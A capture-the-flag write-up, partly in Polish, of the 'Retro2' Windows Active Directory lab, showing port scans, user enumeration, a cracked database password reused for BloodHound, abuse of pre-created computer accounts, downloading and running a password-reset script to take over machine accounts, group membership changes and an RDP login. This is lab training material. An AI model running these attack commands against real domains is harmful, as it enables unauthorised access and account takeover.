 # Retro2
Windows, easy, created by **xct**

![retro2_slide](https://github.com/user-attachments/assets/ab901566-51ff-4a6d-a50a-27ab2d5ba80d)


```
53/tcp    open  domain             Microsoft DNS 6.1.7601 (1DB15F75) (Windows Server 2008 R2 SP1)
53/udp  open  domain       Microsoft DNS 6.1.7601 (1DB15F75) (Windows Server 2008 R2 SP1)
88/udp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-11-27 16:18:14Z)
123/udp open  ntp          NTP v3
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
389/tcp   open  ldap               Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds       Windows Server 2008 R2 Datacenter 7601 Service Pack 1 microsoft-ds (workgroup: RETRO2)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap               Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ssl/ms-wbt-server?
5722/tcp  open  msrpc              Microsoft Windows RPC
9389/tcp  open  mc-nmf             .NET Message Framing
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc              Microsoft Windows RPC
49172/tcp open  msrpc              Microsoft Windows RPC

```

Windows Server 2008? veeeeery old

`| ssl-cert: Subject: commonName=BLN01.retro2.vl`

```
enum4linux -a 10.10.77.186
enum4linux -u guest -a 10.10.77.186
enum4linux -u anonymous -a 10.10.77.186
```
![{89061595-56DD-4A54-B3F0-94978B62B218}](https://github.com/user-attachments/assets/9cd64afc-7142-4de4-aaec-7f44bd22c526)

```
nxc smb 10.10.77.186 -u guest -p '' --rid
SMB         10.10.77.186    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.77.186    445    BLN01            [+] retro2.vl\guest: 
SMB         10.10.77.186    445    BLN01            498: RETRO2\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            500: RETRO2\Administrator (SidTypeUser)
SMB         10.10.77.186    445    BLN01            501: RETRO2\Guest (SidTypeUser)
SMB         10.10.77.186    445    BLN01            502: RETRO2\krbtgt (SidTypeUser)
SMB         10.10.77.186    445    BLN01            512: RETRO2\Domain Admins (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            513: RETRO2\Domain Users (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            514: RETRO2\Domain Guests (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            515: RETRO2\Domain Computers (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            516: RETRO2\Domain Controllers (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            517: RETRO2\Cert Publishers (SidTypeAlias)
SMB         10.10.77.186    445    BLN01            518: RETRO2\Schema Admins (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            519: RETRO2\Enterprise Admins (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            520: RETRO2\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            521: RETRO2\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            553: RETRO2\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.77.186    445    BLN01            571: RETRO2\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.77.186    445    BLN01            572: RETRO2\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.77.186    445    BLN01            1000: RETRO2\admin (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1001: RETRO2\BLN01$ (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1102: RETRO2\DnsAdmins (SidTypeAlias)
SMB         10.10.77.186    445    BLN01            1103: RETRO2\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            1104: RETRO2\staff (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            1105: RETRO2\Julie.Martin (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1106: RETRO2\Clare.Smith (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1107: RETRO2\Laura.Davies (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1108: RETRO2\Rhys.Richards (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1109: RETRO2\Leah.Robinson (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1110: RETRO2\Michelle.Bird (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1111: RETRO2\Kayleigh.Stephenson (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1112: RETRO2\Charles.Singh (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1113: RETRO2\Sam.Humphreys (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1114: RETRO2\Margaret.Austin (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1115: RETRO2\Caroline.James (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1116: RETRO2\Lynda.Giles (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1117: RETRO2\Emily.Price (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1118: RETRO2\Lynne.Dennis (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1119: RETRO2\Alexandra.Black (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1120: RETRO2\Alex.Scott (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1121: RETRO2\Mandy.Davies (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1122: RETRO2\Marilyn.Whitehouse (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1123: RETRO2\Lindsey.Harrison (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1124: RETRO2\Sally.Davey (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1127: RETRO2\ADMWS01$ (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1128: RETRO2\inventory (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1129: RETRO2\services (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            1130: RETRO2\ldapreader (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1131: RETRO2\FS01$ (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1132: RETRO2\FS02$ (SidTypeUser)
```

zrobiłem sobie listę userów

![{602E1215-F958-4268-B1B0-5F76314C104A}](https://github.com/user-attachments/assets/f9b356e5-c6f4-4daa-9355-bc9364d35bc7)

asproasting odpada

![{4CCFEF23-D952-4BD1-8C78-EB3C7BCAB559}](https://github.com/user-attachments/assets/abb1eb99-f41a-4978-a37f-d2460f536113)

Dobra znowu guest share

![{54F60447-BC72-4495-A3B7-769A822D41D7}](https://github.com/user-attachments/assets/274d1a74-2b42-4218-9836-a986b5c6815f)

![{0025D800-4CB0-462A-87BE-DF5FEC8E0160}](https://github.com/user-attachments/assets/104b347f-038f-4738-8cb8-b826eaffedbf)

![{E38E8869-3450-41CC-B015-907860CA390F}](https://github.com/user-attachments/assets/ac39365f-2411-4432-a30f-107e613f028f)

Database is password protected

![{6276DCDB-FAAD-4469-AD22-AEC492660FC5}](https://github.com/user-attachments/assets/03c0ecad-08f5-4414-a50b-57fa92c49e3e)

Fast cracking

![cracking](https://github.com/user-attachments/assets/4e6e98f5-1368-4806-93af-e49d5562f858)

I exported data to .txt file

![{6539CF70-EE3A-4923-9B61-E5D5FDCCC84D}](https://github.com/user-attachments/assets/6338b160-551c-4018-8be6-23f783530bbe)


![cracking](https://github.com/user-attachments/assets/86b4fa51-ce76-4126-9474-426bf06c1cb7)
![pass](https://github.com/user-attachments/assets/46b9cf5f-57d9-4fc6-bdfc-bd83e1d09a8e)

`ldapreader` więc chyba coś z ldapem hehe.
Ale ja machnę bloodhounda bo to samo da i więcej

`bloodhound-python -d retro2.vl -c all -u ldapreader -p ppYaVcB5R -ns 10.10.77.186`

Widzimy kilka komputerów... mam pomysł z poprzedniego retro

![{6B33EE5F-5F14-46E8-8C91-B91DECADABE4}](https://github.com/user-attachments/assets/045d8bb7-314d-41ca-badb-0249236aab26)

![{3D52E395-BA8D-41E1-98CC-2B052D5A08D6}](https://github.com/user-attachments/assets/3803755b-0eb9-436b-8e2f-814e58029b0c)

![{8FBC979E-E930-4ADE-A86E-275A9D522704}](https://github.com/user-attachments/assets/fc80f9e8-8a48-4045-b8f3-a0fd78a0565c)

sooooo x2 `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` are interesting

```
FS01$:fs01
FS02$:fs02
```

```
impacket-getTGT 'retro2.vl/FS01$:fs01'
export KRB5CCNAME=FS01\$.ccache
klist
```

![{1003E993-EAEB-42EB-82CE-FE4A55A55AA9}](https://github.com/user-attachments/assets/d4ae5992-669b-461e-9f8e-6b572c6b6a75)

```
cat /etc/krb5.conf      
[libdefaults]
        default_realm = RETRO2.VL
        dns_lookup_realm = false
        ticket_lifetime = 24h
        renew_lifetime = 7d
        rdns = false
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        fcc-mit-ticketflags = true

[realms]
        RETRO.VL = {
                kdc = BLN01.RETRO2.VL
                admin_server = BLN01.RETRO2.VL
        }

```
```
wget https://raw.githubusercontent.com/api0cradle/impacket/a1d0cc99ff1bd4425eddc1b28add1f269ff230a6/examples/rpcchangepwd.py
python3 rpcchangepwd.py retro2.vl/fs01\$:fs01@10.10.98.90 -newpass Test123@
net rpc password 'ADMWS01$' Test@321 -U retro2.vl/'fs01$'%Test123@ -S bln01.retro2.vl
```
![{B7FE3E2C-26A3-49F9-A404-F762D4F588AB}](https://github.com/user-attachments/assets/d2777ed0-1b8c-4d9d-b9ca-2a4a509e4ca4)

![{EF682CDF-C0DF-4E22-BB0A-7DA0404A97C0}](https://github.com/user-attachments/assets/30495242-72e3-49ef-9066-3710f82dcca3)

```
net rpc group addmem "SERVICES" "ldapreader" -U retro2.vl/"ADMWS01$" -S BLN01.retro2.vl
net rpc group members "SERVICES" -U retro2.vl/"ADMWS01$" -S BLN01.retro2.vl
xfreerdp /u:ldapreader /p:ppYaVcB5R /v:10.10.98.90 /tls-seclevel:0
```

![{BE79DFB4-6024-4D78-885B-3FA73F561919}](https://github.com/user-attachments/assets/993ffc2c-fb99-4896-84f2-dd07ad9217c7)

priv escalation na windows server 2008 powinien być dość prosty xd

![{3F166731-AE22-4A4D-95B8-AAAC6E61EDC7}](https://github.com/user-attachments/assets/5d2c4ed7-6f64-4096-9d68-36feb15694e5)

![{15FA1675-B7A6-45FE-B780-C77D2AD7215D}](https://github.com/user-attachments/assets/eb3623c0-e6eb-423f-884f-ae38a28c4310)

![{70D6B46A-982B-4FCE-B780-BE3CA4A273D4}](https://github.com/user-attachments/assets/da803adf-7cb2-4f64-8533-75bdd5f13949)

![{683E5425-725E-4B60-B344-7860CA406978}](https://github.com/user-attachments/assets/378db5cf-55ba-4bb7-a079-802dce1e38f2)

![{EE99BCC9-CE89-49D8-90F4-026D77781DFD}](https://github.com/user-attachments/assets/b5a8d595-7eab-4829-be6c-511880c109c3)

![{FACDC06C-A0F1-4999-B2B2-7942F8F055B5}](https://github.com/user-attachments/assets/db11e69a-bb5b-4db1-9e29-476efba739cc)


śmiesznie

![{1604D058-AFC4-44A9-A313-3A13FA0DAAA4}](https://github.com/user-attachments/assets/b599f209-34af-4a4d-a81c-20dc2f966651)


klasyczek. All failed.

Dobra znalazłem takie cuda. 
`https://github.com/itm4n/Perfusion.git`



